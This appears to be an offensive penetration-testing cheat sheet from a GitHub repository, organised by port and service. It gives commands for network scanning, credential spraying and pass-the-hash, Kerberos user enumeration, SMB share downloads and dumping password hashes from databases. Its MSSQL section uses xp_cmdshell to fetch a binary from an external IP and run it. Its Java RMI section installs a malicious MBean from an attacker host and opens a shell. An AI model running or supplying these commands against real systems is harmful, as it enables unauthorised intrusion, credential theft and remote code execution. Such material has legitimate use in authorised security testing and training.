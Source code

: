 ## Initial Access  
**Discover the hosts on the network (Linux) :**   
`for i in {1..255};do ping -c 1 192.168.110.$i > /dev/null;if [ $? -eq 0];then echo 192.168.110.$i;fi;done`   
`nmap -Pn -p- -v 192.168.110.1-255`   

**Discover the hosts on the network (Windows) :**
Use PowerSploit's function `Invoke-Portscan` : https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1    
`. .\Invoke-Portscan.ps1`  
`Invoke-Portscan -TopPorts 1000 -Hosts 192.168.210.0/24 -oA results`


**Scan all ports on a host and execute nmap scripts (Linux & Windows):**   
`nmap -A -p- -v 192.168.110.55`  

**Spray creds on several hosts (Linux & Windows):**   
`crackmapexec smb <host> -d <domain> -u <username> -p <password> -H <hash> --shares`  
`crackmapexec winrm 192.168.110.0/24 -u Tom -H '8af1903d3c80c3552a84b6ba299db2ea' --local-auth`  

**Unknown obsolete service:**  
Display known exploits and their EDB-ID : `searchsploit <service_name> --id`  
Copy the exploit to the current directory : `searchsploit <EDB-ID> -m .`  
    
## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
<br/>
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     
<br/>
## Port 135 - MSRPC  
TODO  
<br/>
## Port 445 - SMB
**List SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152"`  
`smbclient -U ".\Guest" -L //10.10.11.152`   
    
**Browse SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`   
`smbmap -u 'john' -p 'P@ssw0rd123' -d domain.local -H "192.168.110.10" -r "IPC$"`  
      
**Download SMB files (python, Linux & Windows):**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`    
<br/> 
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
<br/>  
   
 ## Port 1433 - MSSQL
 `PowerUpSQL.ps1` can be used : https://github.com/NetSPI/PowerUpSQL     
 `PowerUpSQL.ps1` cheatsheet : https://github.com/NetSPI/PowerUpSQL  
 Check for vulnerabilities:  
 ```
 Invoke-SQLAudit -Instance 192.168.210.15 -Username 'user' -Password 'pass'
 ```

 The native Windows tool osql can also be used:  
 - Enable xp_cmdshell on a remote instance linked to the local instance to execute system commands remotely:
   ```osql -E -S "WEBSRV" -Q "EXECUTE('EXEC sp_configure "xp_cmdshell", "1"') AT [sqlsrv.lab.local];"```  
   ```osql -E -S "WEBSRV" -Q "EXECUTE('RECONFIGURE') AT [sqlsrv.lab.local];" ```  
  
- Execute commands:  
  ```osql -E -S "WEBSRV" -Q "EXECUTE('xp_cmdshell ''powershell.exe iwr -Uri http://10.10.16.20:8080/bc2.exe -OutFile c:\Temp\leperche\bc2.exe''') AT [sqlsrv.lab.local];" ```  
  ```osql -E -S "WEBSRV" -Q "EXECUTE('xp_cmdshell ''powershell.exe -c Start-Process -NoNewWindow -FilePath C:\Temp\leperche\bc2.exe''') AT [sqlsrv.lab.local];"```      
        
  
    
## Port 3306 - MySQL   
`PowerUpSQL.ps1` can be used : https://github.com/NetSPI/PowerUpSQL    
    
**Connect to the MySQL service:**  
`mysql -u <user> -p -h localhost`  
  
**Once connected to the DB:**    
Enumerate the databases:  
`SHOW DATABASES;` 
  
Select a database:  
`use <database>`
    
List the database tables:  
`SHOW TABLES;`  
  
See the content of the 'users' table:  
`DESCRIBE users;`  
  
Extract data (password hashes for example) from the 'users' table:  
`SELECT * FROM users;`   
  
  
## Port 3389 - RDP  
From Linux:   
```
xfreerdp -u john -p 'Habile@123!' -v 192.168.210.15
```
      
## Ports 5985,5986 - WinRM  
Using Evil-WinRM (Linux & Windows) :    
`gem install evil-winrm`  
`evil-winrm –i <host> –u <username> [-p <password>] [-H <hash>]`  
   
Using WinRS.exe (native PowerShell client):  
`$ winrs /r:<host> /u:<domain\username> /p:<password> <command>`  
  
Using native PowerShell :    
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`   
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`   
    
  
## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`    

## Exploitation 
**For web services :**   
TODO Metasploit web_delivery : `TODO`   
  
  

